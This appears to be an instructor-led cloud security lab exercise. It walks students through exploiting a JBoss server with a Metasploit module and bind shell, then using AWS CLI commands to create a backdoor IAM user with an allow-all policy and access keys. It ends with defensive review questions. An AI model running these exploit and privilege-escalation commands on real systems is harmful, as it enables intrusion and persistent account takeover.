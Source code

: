 # Lab 3

**Table of Contents**

- [Establish a Foothold](##establish-a-foothold)
- [Hack the Cloud](##hack-the-cloud)

# Escalating Privileges in AWS

In this lab we will be performing account takeover.

*Resources:*

- [AWS Identity and Access Management](http://docs.aws.amazon.com/cli/latest/reference/iam/)

---

## Establish a Foothold

1. Continuing from Lab 2, establish a foothold on the JBoss application server (target 2).

  Run a shell.

  ```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
[ec2-user@ip-10-0-2-43 jboss-5.1.0.GA]$ cd ~
  ```

2. If the pivot exploit fails, exploit the JBoss server directly. Remember to use the instructor provided port for the `LPORT` setting below.

  ```
use exploit/multi/http/jboss_invoke_deploy
set RHOST 52.41.95.90
set target 1
set payload java/shell/bind_tcp
set LPORT 10001
exploit
  ```

  Wait for the exploit to finish and then type: `python -c 'import pty; pty.spawn("/bin/bash")'`.

## Hack the Cloud

1. On the system you have just compromised, create a hacker user, and group and add the user to the group. The hacker username and group should match your student ID.

  E.g., `student1` would create a user named `hacker1`. You can do this like so:

  ```
$ aws iam create-user --user-name hacker1
$ aws iam create-group --group-name hacker1
$ aws iam add-user-to-group --group-name hacker1 --user-name hacker1
  ```

2. Attach an all-powerful policy to the group.

  ```
$ aws iam put-group-policy --group-name hacker1 --policy-name hacker1 \
    --policy-document '{"Version": "2012-10-17", "Statement": [{"Sid": "Stmt1437414476731", "Action": "*","Effect": "Allow", "Resource": "*" }]}'

  ```

3. Create API Access keys.

  ```
$ aws iam create-access-key --user-name hacker1
  ```

  Output:
  ```
{
    "AccessKey": {
        "UserName": "hacker1",
        "Status": "Active",
        "CreateDate": "2016-06-30T18:34:48.637Z",
        "SecretAccessKey": "...",
        "AccessKeyId": "AKI..."
    }
}
  ```

4. Use what you have learned in previous weeks to open up the console using the API access keys we just created.

  Answer these questions:

  * Does your hacker user have more privileges than the instance from where you created the user?
  * How would you classify this attack?
  * What changes would you make to the policy attached to target 2 so that this attack is not possible?
